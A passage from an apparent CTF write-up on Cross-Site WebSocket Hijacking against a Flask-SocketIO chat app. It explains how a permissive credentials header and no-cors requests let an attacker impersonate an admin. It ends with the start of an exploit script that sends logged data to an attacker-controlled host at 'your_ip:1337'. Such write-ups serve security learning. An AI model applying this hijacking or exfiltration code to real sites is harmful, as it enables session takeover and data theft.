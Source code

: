 With that, we now fully understand the inner workings of socketio. We can now create a connection, trigger an event, and receive messages.

#### Security vulnerabilities with WebSockets

As per the title of this post, the vulnerability we will be looking at is Cross-Site WebSocket Hijacking. The main problem is that WebSockets are just like regular requests except they are bidirectional. However, they do not have one of the most important protections built into them, the Same Origin Policy (SOP). As explored by [Christian Schneider](https://christian-schneider.net/CrossSiteWebSocketHijacking.html), even though the `Origin` header is sent along with the WebSocket request, cors does not send headers nor does the browser use this information. This makes hijacking a WebSocket almost trivial.

Think of this as a Cross-Site Request Forgery attack. You can get the victim to do something to the WebSocket by simply visiting your website as there is no verification of the origin. All that you need to do is create a new WebSocket connection to the endpoint with cookies included and you can now fully impersonate the victim.

With socketio polling, the attack is essentially the same. The only problem is that because polling is done through REST-style requests, SOP is active and will block requests from different origins unless there is a special header. In the following example problem from HacktivityconCTF, you will see what the difference must be.

#### Example of exploitation


This challenge from HacktivityconCTF had one major component, a chat window. There are 2 key things to know about the window. If there is a URL sent to the chat, the admin will visit it and if the command `!flag` is run from the admin user then the bot will display the flag. 

Seeing that this was a chat application, I knew that somehow WebSockets were being used here. Specifically, I deduced it to be Flask-SocketIO using polling mode based on the error messages and the network requests.

As I mentioned earlier, because it was polling mode, the requests are actually done via a normal request, meaning SOP was active. This posed a major problem because we need to be able to read back data from both the initial request to get our SID and to poll and read the text from the server. If this was configured securely, there would be no way to hijack the socket from a different origin. However, looking at the requests I noticed that for GET requests to the socketio route, a special header `Access-Control-Allow-Credentials: *` was included. What this header means is that we are able to send credentials (cookies) with the request and still be able to read the response, perfect for our situation. If the header was set properly to only the website domain, we would still be able to send requests but would be unable to read the response, leaving us unable to fully hijack the socket and impersonate the admin. In regards to the POST requests and sending events, because we only need to send the data and not receive it, we can send the credentials with `mode: 'no-cors'` and have the server receive our request cross-origin.

With all this in mind, this is the final exploit.js file which would need to be loaded on your server. It is important to note that because browsers will not allow the mixing of HTTPS and HTTP, your server must be on HTTP.

```javascript
const logSocket = new WebSocket('wss://your_ip:1337');

logSocket.addEventListener('open', _event => {
    doExploit();
});

function log(msg){
    if(logSocket.readyState == WebSocket.OPEN){
        logSocket.send(JSON.stringify(msg));
    }
}

function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
}

```